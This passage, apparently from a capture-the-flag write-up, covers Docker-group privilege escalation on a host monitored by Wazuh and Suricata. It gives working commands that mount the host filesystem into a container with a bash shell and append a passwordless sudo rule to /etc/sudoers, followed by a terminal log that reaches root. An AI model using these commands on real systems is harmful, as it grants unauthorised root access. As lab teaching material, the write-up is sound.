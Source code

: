 Suricata is capable of detecting when scripts are downloaded via `wget`  , however, TLS restricts its ability to actually detect the traffic without the deployment of web proxy servers. It may also be possible to simply copy and paste the script's content however, most HIDS implement some form of file system integrity monitoring which would detect the addition of the script even if an antivirus was not installed;

## **Performing Privilege Escalation**
The last task allowed us to identify Docker as a potential privilege escalation vector. Now it's time to perform the escalation itself. First, though, I should explain how this particular privilege escalation works. In short, this attack leverages a commonly suggested [workaround](https://stackoverflow.com/questions/48568172/docker-sock-permission-denied) that allows non-root users to run docker containers. The workaround requires adding a non-privileged user to the `docker`group which, allows that user to run containers without using `sudo` or having root privileges. However, this also grants effective root-level privileges to the provided user, as they are able to spawn containers without restriction.

We can use these capabilities to gain root privileges quite easily try and run the following with the `grafana-admin` account:

`docker run -it --entrypoint=/bin/bash -v /:/mnt/ ghcr.io/jroo1053/ctfscoreapache:master`  

This will spawn a container in interactive mode, overwrite the default entry-point to give us a shell, and mount the hosts file system to root.  From within this container, we can then edit one of the following files to gain elevated privileges:

- `/etc/group` We could add the `grafana-admin` account to the root group. Note, that this file is covered by the HIDS  
	`sudo usermod -aG root username`
- `/etc/sudoers` Editing this file would allow us to add the grafana-admin account to the sudoers list and thus, we would be able to run `sudo` to gain extra privileges. Again, this file is monitored by Wazuh.  In this case, we can perform this by running:  
   `echo "grafana-admin ALL=(ALL) NOPASSWD: ALL" >>/mnt/etc/sudoers   `  
- We could add a new user to the system and join the root group via `/etc/passwd` . Again though, this activity is likely to be noticed by the HIDS.
	`sudo usermod -aG admin johndoe`

Q)Perform the privilege escalation and grab the flag in /root/
```
grafana-admin@reversegear:~$ pwd
/home/grafana-admin
grafana-admin@reversegear:~$ whoami
grafana-admin      !!!
grafana-admin@reversegear:~$ sudol -l

Command 'sudol' not found, did you mean:

  command 'sudo' from deb sudo (1.8.31-1ubuntu1.2)
  command 'sudo' from deb sudo-ldap (1.8.31-1ubuntu1.2)

Try: apt install <deb name>

grafana-admin@reversegear:~$ sudo -l
[sudo] password for grafana-admin: 
Sorry, user grafana-admin may not run sudo on reversegear.
grafana-admin@reversegear:~$ docker run -it --entrypoint=/bin/bash -v /:/mnt/ ghcr.io/jroo1053/ctfscoreapache:master    !!!!

root@3b3df5d268cd:/# 
root@3b3df5d268cd:/# whoami
root     !!!!
root@3b3df5d268cd:/# echo "grafana-admin ALL=(ALL) NOPASSWD: ALL" >>/mnt/etc/sudoers          !!!
root@3b3df5d268cd:/# whoami
root     !!!
root@3b3df5d268cd:/# ls
bin   dev  home           lib    lib64   media  opt   root  sbin  sys  usr
```